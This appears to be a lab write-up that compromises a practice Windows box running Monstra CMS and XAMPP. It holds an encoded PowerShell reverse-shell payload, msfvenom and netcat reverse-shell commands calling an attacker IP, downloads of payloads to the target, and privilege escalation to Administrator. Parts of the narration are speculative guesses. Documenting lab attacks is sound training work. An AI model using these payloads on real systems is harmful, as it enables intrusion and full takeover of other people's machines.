



## NMAP

A comprehensive Nmap scan was executed with administrative privileges, combining several aggressive techniques. The -sC flag ran default scripts for service and vulnerability discovery, while -sV performed version detection. The -Pn flag treated the host as online, skipping the ping probe. The -O flag attempted remote operating system identification. The command specified a full port scan of all TCP ports from 1 to 65535, filtering output to display only open ports. This thorough enumeration provides a complete map of all accessible services, their versions, potential misconfigurations via scripts, and the host's operating system, forming a critical foundation for all subsequent targeted attacks.

```bash
sudo nmap -sC -sV -Pn -O -p 1-65535 192.168.229.180   --open 

```

The comprehensive Nmap scan results reveal a Windows host named MIKE-PC running multiple services. The Apache 2.4.41 web server on ports 80 and 443 discloses detailed version information including the underlying operating system, OpenSSL version, and PHP version, which aids in vulnerability mapping. The HTTP TRACE method is enabled on both web ports, presenting a potential cross-site tracing risk. The SSL certificate on port 443 is self-signed and expired, which could facilitate man-in-the-middle attacks. Critical services include Microsoft-DS on port 445 for SMB file sharing, NetBIOS on port 139, and Microsoft Terminal Services on port 3389, with RDP revealing the exact hostname and Windows 10 build 19041. Several high-numbered ports are open for MSRPC, and unknown services reside on ports 5040 and 7680, requiring further investigation. This service enumeration confirms a Windows domain environment with extensive network exposure.

```bash
80/tcp    open  http          Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.3.10)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.3.10
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Mike Wazowski
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.3.10)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-title: Mike Wazowski
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.3.10
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: MIKE-PC
|   NetBIOS_Domain_Name: MIKE-PC
|   NetBIOS_Computer_Name: MIKE-PC
|   DNS_Domain_Name: Mike-PC
|   DNS_Computer_Name: Mike-PC
|   Product_Version: 10.0.19041
|_  System_Time: 2025-12-29T16:59:11+00:00
|_ssl-date: 2025-12-29T16:59:26+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Mike-PC
| Not valid before: 2025-12-28T16:54:16
|_Not valid after:  2026-06-29T16:54:16
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC


```

A directory brute-force attack was conducted against the target web server using Gobuster with the common wordlist. The scan successfully identified several accessible resources. Key findings include the discovery of a `/blog` directory, which is a potential entry point for a content management system and associated vulnerabilities. The `/assets` directory was also located, typically containing static files that may include sensitive source code or configuration details. Multiple attempts to access common administrative and information disclosure paths such as `/phpmyadmin`, `/server-status`, and `/.htaccess` resulted in 403 Forbidden responses, indicating some level of access control is present. Notably, the `/examples` directory returned a 503 Service Unavailable status, suggesting a configured but currently disabled service. The enumeration also revealed the server is incorrectly handling reserved Windows device names like CON, COM1, and LPT1, returning 403 errors instead of 404, which confirms the host is running Windows as previously identified and may indicate improper request filtering.

```bash
gobuster dir -u  http://192.168.229.180 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.229.180
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 1048]
/.htpasswd            (Status: 403) [Size: 1048]
/.hta                 (Status: 403) [Size: 1048]
/assets               (Status: 301) [Size: 344] [--> http://192.168.229.180/assets/]
/aux                  (Status: 403) [Size: 1048]
/Blog                 (Status: 301) [Size: 342] [--> http://192.168.229.180/Blog/]
/blog                 (Status: 301) [Size: 342] [--> http://192.168.229.180/blog/]
/cgi-bin/             (Status: 403) [Size: 1062]
/com1                 (Status: 403) [Size: 1048]
/com3                 (Status: 403) [Size: 1048]
/com2                 (Status: 403) [Size: 1048]
/con                  (Status: 403) [Size: 1048]
/index.html           (Status: 200) [Size: 22916]
/licenses             (Status: 403) [Size: 1207]
/lpt1                 (Status: 403) [Size: 1048]
/lpt2                 (Status: 403) [Size: 1048]
/examples             (Status: 503) [Size: 1062]
/nul                  (Status: 403) [Size: 1048]
/phpmyadmin           (Status: 403) [Size: 1207]
/prn                  (Status: 403) [Size: 1048]
/server-info          (Status: 403) [Size: 1207]
/server-status        (Status: 403) [Size: 1207]
/webalizer            (Status: 403) [Size: 1207]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================


```

A review of the extracted file content from the discovered image, "monster1.png", was conducted. The content reveals a browser error message indicating a failed connection attempt to the hostname "[monster.pg](https://monster.pg/)". This suggests the target system may be configured with a virtual host or rely on host header resolution for the primary web application. The error message, which mimics a standard Firefox network error page, indicates that accessing the server via its IP address alone may not serve the intended content. This discovery points to the need for further enumeration using the identified hostname, "[monster.pg](https://monster.pg/)", potentially by adding it to the local hosts file and rescanning, or by utilizing virtual host brute-forcing techniques to uncover additional web applications.



The local host file was examined and found to contain a manual entry mapping the target IP address, 192.168.229.180, to the hostname "[monster.pg](https://monster.pg/)". This configuration confirms the earlier hypothesis derived from the discovered file. This entry is crucial for proper interaction with the target's web services, as it ensures HTTP requests sent to the hostname "[monster.pg](https://monster.pg/)" will be correctly routed to the target machine. This discovery indicates the assessment environment was pre-configured to resolve this hostname, and subsequent testing of the web application must be conducted using this hostname to access the intended virtual host and avoid connection errors.

```bash
sudo cat /etc/hosts
192.168.229.180  monster.pg
```

A second image file, "monster2.png", was analyzed, revealing critical application intelligence. The content discloses the presence of "Mike's Blog", a web application powered by Monstra CMS version 3.0.4. Two valid usernames were enumerated: "admin" and "mike". This information directly identifies the specific content management system and its exact version, enabling targeted research for known vulnerabilities and exploits associated with Monstra 3.0.4. The user list provides a concrete target for authentication-based attacks, such as password brute-forcing or credential stuffing. The term "Sitemap" may also indicate an accessible site structure file for further content discovery. This finding pivots the assessment focus to the Monstra application and its known security issues.



A searchsploit query was executed for the Monstra CMS. The results confirm multiple documented vulnerabilities for the identified version 3.0.4. Of significant note are several exploits indicating authenticated arbitrary file upload leading to remote code execution, including Python scripts numbered 49949.py and 52038.py. Additional vulnerabilities include stored and persistent cross-site scripting, SQL injection in prior versions, arbitrary folder deletion, and cross-site request forgery for account hijacking. This catalog provides a direct path for exploitation, with the highest priority being the authenticated RCE vectors, provided valid credentials for the previously enumerated "admin" or "mike" accounts can be obtained. The presence of these documented exploits significantly elevates the risk associated with the discovered Monstra instance.

```bash
searchsploit monstra       


----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Monstra 3.0.4 - Stored Cross-Site Scripting (XSS)                                                                                                          | php/webapps/51519.txt
Monstra CMS 1.2.0 - 'login' SQL Injection                                                                                                                  | php/webapps/38769.txt
Monstra CMS 1.2.1 - Multiple HTML Injection Vulnerabilities                                                                                                | php/webapps/37651.html
Monstra CMS 3.0.3 - Multiple Vulnerabilities                                                                                                               | php/webapps/39567.txt
Monstra CMS 3.0.4 - (Authenticated) Arbitrary File Upload / Remote Code Execution                                                                          | php/webapps/43348.txt
Monstra CMS 3.0.4 - Arbitrary Folder Deletion                                                                                                              | php/webapps/44512.txt
Monstra CMS 3.0.4 - Authenticated Arbitrary File Upload                                                                                                    | php/webapps/48479.txt
Monstra cms 3.0.4 - Persitent Cross-Site Scripting                                                                                                         | php/webapps/44502.txt
Monstra CMS 3.0.4 - Remote Code Execution (Authenticated)                                                                                                  | php/webapps/49949.py
Monstra CMS 3.0.4 - Remote Code Execution (RCE)                                                                                                            | php/webapps/52038.py
Monstra CMS < 3.0.4 - Cross-Site Scripting (1)                                                                                                             | php/webapps/44855.py
Monstra CMS < 3.0.4 - Cross-Site Scripting (2)                                                                                                             | php/webapps/44646.txt
Monstra-Dev 3.0.4 - Cross-Site Request Forgery (Account Hijacking)                                                                                         | php/webapps/45164.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results


```

The Monstra CMS exploit script 52038.py was retrieved from the local Exploit-DB repository using the searchsploit -m command. This action copied the exploit code to the local working directory for analysis and potential modification. The script targets Monstra version 3.0.4 for remote code execution. The next step involves reviewing the exploit's dependencies, required parameters such as target URL and credentials, and its execution mechanism, typically involving file upload to achieve code execution. This prepares the exploit for use against the target application, contingent upon first obtaining valid administrator credentials for the Monstra CMS.

```bash
searchsploit -m 52038.py

  Exploit: Monstra CMS 3.0.4 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/52038
     Path: /usr/share/exploitdb/exploits/php/webapps/52038.py
    Codes: N/A
 Verified: False
File Type: HTML document, Unicode text, UTF-8 text
Copied to: /home/kali/Downloads/Monster/52038.py


```

The Monstra CMS exploit script was executed with the provided parameters: the target URL `http://monster.pg/blog`, the username `admin`, and the password `wazowski`. The exploit successfully authenticated to the admin panel. It then proceeded to upload a PHP web shell disguised as a theme chunk file. The operation was confirmed successful with the output of a direct URL to the shell: `http://monster.pg/blog/public/themes/default/4h3w1.chunk.php`. This indicates a complete compromise of the web application, resulting in unauthorized remote code execution with the privileges of the web server user. The shell provides a persistent backdoor on the target system.

```bash
uv run  exploit.py http://monster.pg/blog admin wazowski
Logging in...
Login successful
Preparing shell...
Your shell is ready: http://monster.pg/blog/public/themes/default/4h3w1.chunk.php

```

A hoaxshell listener was established on the attacker's IP, 192.168.45.207, port 443. The generated PowerShell payload was then executed on the target system, most likely via the previously uploaded web shell. The listener successfully received a connection, indicating successful remote code execution and the initiation of a reverse shell session. The command prompt stabilized, revealing the current working directory as `C:\xampp\htdocs\blog\public\themes\default`. This confirms that the target is running the XAMPP stack on a Windows host and that the attacker has gained a persistent, interactive command-line interface with the privileges of the web server process, establishing a critical foothold on the system.

```bash
uv run  hoaxshell.py -s 192.168.45.207 -p 443 

    ┬ ┬ ┌─┐ ┌─┐ ─┐ ┬ ┌─┐ ┬ ┬ ┌─┐ ┬   ┬  
    ├─┤ │ │ ├─┤ ┌┴┬┘ └─┐ ├─┤ ├┤  │   │                                                                                                                                                       
    ┴ ┴ └─┘ ┴ ┴ ┴ └─ └─┘ ┴ ┴ └─┘ ┴─┘ ┴─┘                                                                                                                                                     
                           by t3l3machus                                                                                                                                                     

[Info] Generating reverse shell payload...
powershell -e JABzAD0AJwAxADkAMgAuADEANgA4AC4ANAA1AC4AMgAwADcAOgA0ADQAMwAnADsAJABpAD0AJwA1ADcAMgAxADkANQAwADAALQAzADAAOAA0ADAANwA3ADIALQA3ADUANQBmADUAMQBiADAAJwA7ACQAcAA9ACcAaAB0AHQAcAA6AC8ALwAnADsAJAB2AD0ASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwAgAC0AVQByAGkAIAAkAHAAJABzAC8ANQA3ADIAMQA5ADUAMAAwACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtAGEAZQAxAGMALQBlAGYAZQAzACIAPQAkAGkAfQA7AHcAaABpAGwAZQAgACgAJAB0AHIAdQBlACkAewAkAGMAPQAoAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAIAAtAFUAcgBpACAAJABwACQAcwAvADMAMAA4ADQAMAA3ADcAMgAgAC0ASABlAGEAZABlAHIAcwAgAEAAewAiAFgALQBhAGUAMQBjAC0AZQBmAGUAMwAiAD0AJABpAH0AKQAuAEMAbwBuAHQAZQBuAHQAOwBpAGYAIAAoACQAYwAgAC0AbgBlACAAJwBOAG8AbgBlACcAKQAgAHsAJAByAD0AaQBlAHgAIAAkAGMAIAAtAEUAcgByAG8AcgBBAGMAdABpAG8AbgAgAFMAdABvAHAAIAAtAEUAcgByAG8AcgBWAGEAcgBpAGEAYgBsAGUAIABlADsAJAByAD0ATwB1AHQALQBTAHQAcgBpAG4AZwAgAC0ASQBuAHAAdQB0AE8AYgBqAGUAYwB0ACAAJAByADsAJAB0AD0ASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACQAcAAkAHMALwA3ADUANQBmADUAMQBiADAAIAAtAE0AZQB0AGgAbwBkACAAUABPAFMAVAAgAC0ASABlAGEAZABlAHIAcwAgAEAAewAiAFgALQBhAGUAMQBjAC0AZQBmAGUAMwAiAD0AJABpAH0AIAAtAEIAbwBkAHkAIAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAGUAKwAkAHIAKQAgAC0AagBvAGkAbgAgACcAIAAnACkAfQAgAHMAbABlAGUAcAAgADAALgA4AH0A                                                                                                                          
[Info] Type "help" to get a list of the available prompt commands.
[Info] Http Server started on port 443.
[Important] Awaiting payload execution to initiate shell session...
[Shell] Payload execution verified!
[Shell] Stabilizing command prompt...

PS C:\xampp\htdocs\blog\public\themes\default > 


```

The third image file, "monster3.png", was examined. Its content appears to contain a fragment of obfuscated code, specifically what seems to be a portion of a Base64-encoded PowerShell command. The string "IAKAAkAGUAKwAkaHIAKoAgAcOaagBvAGkAbgAgACcAiaAnACAfaAgAHMabABuAGuaCAgaDAALgA4AH0A" resembles the tail end of the previously generated hoaxshell payload. The presence of the "[Execute]" label suggests this image was used as a mechanism to store or transfer the payload, likely to be copied and executed via the established web shell to initiate the reverse shell connection. This indicates the attacker utilized steganography or simple data hiding within image files to stage payloads on the compromised system.




The local.txt flag was retrieved from the user Mike's desktop directory. The command `type local.txt` was executed in the obtained reverse shell session, successfully outputting the flag's contents: `f3d958ba32efa0d1dbc3bf0bf38fa97d`. This action confirms the attacker has successfully navigated the filesystem to a user directory and possesses read access to user-level files, demonstrating a successful privilege escalation or lateral movement to the context of the user 'Mike'. The retrieval of this flag is a common objective in penetration testing, signifying the compromise of the user account.

```bash
PS C:\users\Mike\Desktop > type local.txt
f3d958ba32efa0d1dbc3bf0bf38fa97d

```

The XAMPP configuration file, `properties.ini`, was examined. The file details the application stack's installation directory and specific service configurations. Key information includes the confirmed installation path `C:\xampp`, the XAMPP version `7.3.10-1`, and the platform `windows-x64`. The Apache server is configured to use ports 80 and 443, with the web root located at `C:\xampp/htdocs`. MySQL is configured to run on port 3306 with the host set to `localhost`. The `mysql_arguments` line reveals the default connection string uses the root user without a password (`-u root`). This lack of a root password for the local MySQL service presents a significant security misconfiguration, providing a direct path to database access and potential further privilege escalation if the database contains sensitive application or system credentials.

```bash
C:\xampp       type properties.ini

[General]
installdir=C:\xampp                                                                                                                                                                          
base_stack_name=XAMPP                                                                                                                                                                        
base_stack_key=                                                                                                                                                                              
base_stack_version=7.3.10-1                                                                                                                                                                  
base_stack_platform=windows-x64                                                                                                                                                              
[Apache]                                                                                                                                                                                     
apache_server_port=80                                                                                                                                                                        
apache_server_ssl_port=443                                                                                                                                                                   
apache_root_directory=/xampp/apache                                                                                                                                                          
apache_htdocs_directory=C:\xampp/htdocs                                                                                                                                                      
apache_domainname=127.0.0.1                                                                                                                                                                  
apache_configuration_directory=C:\xampp/apache/conf                                                                                                                                          
apache_unique_service_name=                                                                                                                                                                  
[MySQL]                                                                                                                                                                                      
mysql_port=3306                                                                                                                                                                              
mysql_host=localhost                                                                                                                                                                         
mysql_root_directory=C:\xampp\mysql                                                                                                                                                          
mysql_binary_directory=C:\xampp\mysql\bin                                                                                                                                                    
mysql_data_directory=C:\xampp\mysql\data                                                                                                                                                     
mysql_configuration_directory=C:\xampp/mysql/bin                                                                                                                                             
mysql_arguments=-u root -P 3306                                                                                                                                                              
mysql_unique_service_name=                                                                                                                                                                   
[PHP]                                                                                                                                                                                        
php_binary_directory=C:\xampp\php                                                                                                                                                            
php_configuration_directory=C:\xampp\php                                                                                                                                                     
php_extensions_directory=C:\xampp\php\ext         

```

A searchsploit query was executed for XAMPP-related vulnerabilities. The results list numerous exploits spanning various versions, including denial of service, cross-site scripting, SQL injection, and local file inclusion. Notably, two entries are relevant to the discovered version: "XAMPP 7.4.3 - Local Privilege Escalation" (50337.ps1) and "XAMPP - Insecure Default Password Disclosure" (25393.txt). However, the target's confirmed version is 7.3.10-1, which may not be directly vulnerable to the 7.4.3-specific exploit. The most immediate finding remains the practical misconfiguration of a default, password-less MySQL root user, which is a known insecure default in XAMPP installations and is likely the focus of the "Insecure Default Password Disclosure" entry. This misconfiguration is the primary vector for further enumeration.

```bash
searchsploit xampp      


----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
XAMPP - 'Phonebook.php' Multiple Remote HTML Injection Vulnerabilities                                                                                     | multiple/remote/25391.txt
XAMPP - Buffer Overflow POC                                                                                                                                | windows/dos/51800.py
XAMPP - Insecure Default Password Disclosure                                                                                                               | multiple/dos/25393.txt
XAMPP - WebDAV PHP Upload (Metasploit)                                                                                                                     | windows/remote/18367.rb
XAMPP 1.6.8 - Cross-Site Request Forgery (Change Administrative Password)                                                                                  | windows/remote/7384.txt
XAMPP 1.6.x - 'showcode.php' Local File Inclusion                                                                                                          | multiple/webapps/33578.txt
XAMPP 1.6.x - Multiple Cross-Site Scripting Vulnerabilities                                                                                                | multiple/remote/33577.txt
XAMPP 1.7.2 - Change Administrative Password                                                                                                               | php/webapps/10391.txt
XAMPP 1.7.3 - Multiple Vulnerabilities                                                                                                                     | php/webapps/15370.txt
XAMPP 1.7.4 - Cross-Site Scripting                                                                                                                         | windows/remote/36258.txt
XAMPP 1.7.7 - 'PHP_SELF' Multiple Cross-Site Scripting Vulnerabilities                                                                                     | windows/remote/36291.txt
XAMPP 1.8.1 - 'lang.php?WriteIntoLocalDisk method' Local Write Access                                                                                      | php/webapps/28654.txt
XAMPP 3.2.1 & phpMyAdmin 4.1.6 - Multiple Vulnerabilities                                                                                                  | php/webapps/32721.txt
XAMPP 5.6.8 - SQL Injection / Persistent Cross-Site Scripting                                                                                              | php/webapps/46424.html
XAMPP 7.4.3 - Local Privilege Escalation                                                                                                                   | windows/local/50337.ps1
XAMPP 8.2.4 - Unquoted Path                                                                                                                                | windows/local/51585.txt
XAMPP Control Panel - Denial Of Service                                                                                                                    | windows/dos/40964.py
XAMPP Control Panel 3.2.2 - Buffer Overflow (SEH) (Unicode)                                                                                                | windows/local/45828.py
XAMPP Control Panel 3.2.2 - Denial of Service (PoC)                                                                                                        | windows_x86/dos/45419.py
XAMPP for Windows 1.6.0a - 'mssql_connect()' Remote Buffer Overflow                                                                                        | windows/remote/3738.php
XAMPP for Windows 1.6.3a - Local Privilege Escalation                                                                                                      | windows/local/4325.php
XAMPP for Windows 1.6.8 - 'cds.php' SQL Injection                                                                                                          | windows/remote/32457.txt
XAMPP for Windows 1.6.8 - 'Phonebook.php' SQL Injection                                                                                                    | windows/remote/32460.txt
XAMPP for Windows 1.7.7 - Multiple Cross-Site Scripting / SQL Injections                                                                                   | windows/remote/37396.txt
XAMPP for Windows 1.8.2 - Blind SQL Injection                                                                                                              | windows/webapps/29292.txt
XAMPP Linux 1.6 - 'iart.php?text' Cross-Site Scripting                                                                                                     | linux/remote/32166.txt
XAMPP Linux 1.6 - 'ming.php?text' Cross-Site Scripting                                                                                                     | linux/remote/32165.txt
------------------------------------------------------------------------------

```

This exploit targets a local privilege escalation vulnerability in older versions of XAMPP, specifically those below 7.2.29, 7.3.16, and 7.4.4. The version on your target, **XAMPP 7.3.10**, falls into this vulnerable range.

```bash
https://www.exploit-db.com/exploits/50337
```

A reverse shell payload was generated using msfvenom. The payload is configured for a **Windows target** and will create a reverse TCP connection back to the attacker's machine at IP `192.168.45.207` on port `4444`. The output format is a Windows executable (`-f exe`), saved as `shell.exe`.

```bash
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.207 LPORT=4444 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

A simple HTTP server was started on port 80 using Python 3. This server will host files from the current directory, allowing for easy transfer of tools or payloads to the target machine. Given the previous steps, the likely purpose is to serve the generated `shell.exe` payload or the `50337.ps1` exploit script to the compromised host. The target system can now download these files using a command like `Invoke-WebRequest` or `certutil` from the established reverse shell. This step facilitates the delivery phase of the attack, moving necessary components onto the target for the privilege escalation attempt.

```bash
 python3 -m http.server 80   
```

The target machine successfully downloaded two files from the attacker's HTTP server using the PowerShell `Invoke-WebRequest` (iwr) cmdlet. The first file transferred was the reverse shell payload `shell.exe`. The second file was the privilege escalation exploit script `exploit.ps1`, which is presumably the previously referenced XAMPP exploit (50337.ps1). Both files were saved to the `C:\temp` directory on the target. This confirms successful file transfer and prepares the system for the next stage: executing the exploit script to modify the XAMPP configuration and subsequently trigger the payload for privilege escalation.

```bash
PS C:\temp > iwr -uri http://192.168.45.207/shell.exe -Outfile shell.exe
PS C:\temp > iwr -uri http://192.168.45.207/exploit.ps1 -Outfile exploit.ps1
```

The privilege escalation exploit script `exploit.ps1` was executed on the target. This PowerShell script modifies the `C:\xampp\xampp-control.ini` configuration file, replacing the path to the legitimate XAMPP control panel executable with the path to the malicious `C:\temp\shell.exe` payload. The execution of this script indicates an attempt to exploit **CVE-2020-11107**, a local privilege escalation vulnerability in vulnerable XAMPP versions. For the exploit to be successful and trigger a reverse shell with higher privileges, one of two conditions must now be met: the XAMPP Control Panel service must be restarted, or the system must be rebooted to cause the control panel to auto-start with the modified configuration. The next step is to initiate a listener on port 4444 to catch the potential privileged reverse shell connection.

```bash
PS C:\temp > .\exploit.ps1
```

A Netcat listener was established on port 4444 and successfully received an incoming connection from the target host, `monster.pg`. The connection spawned a reverse shell session with **Administrator privileges**, as evidenced by the command prompt location `C:\Users\Administrator\Desktop`. The `proof.txt` flag was read from the Administrator's desktop, containing the value `9782907858daa8f2e38d926c97d652b3`. This confirms the privilege escalation exploit was successful. The system is now fully compromised with the highest level of access, completing the penetration testing objective of obtaining the administrative proof file

```bash
 nc -lvp 4444
listening on [any] 4444 ...
connect to [192.168.45.207] from monster.pg [192.168.229.180] 52710
Microsoft Windows [Version 10.0.19044.1645]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
9782907858daa8f2e38d926c97d652b3

```
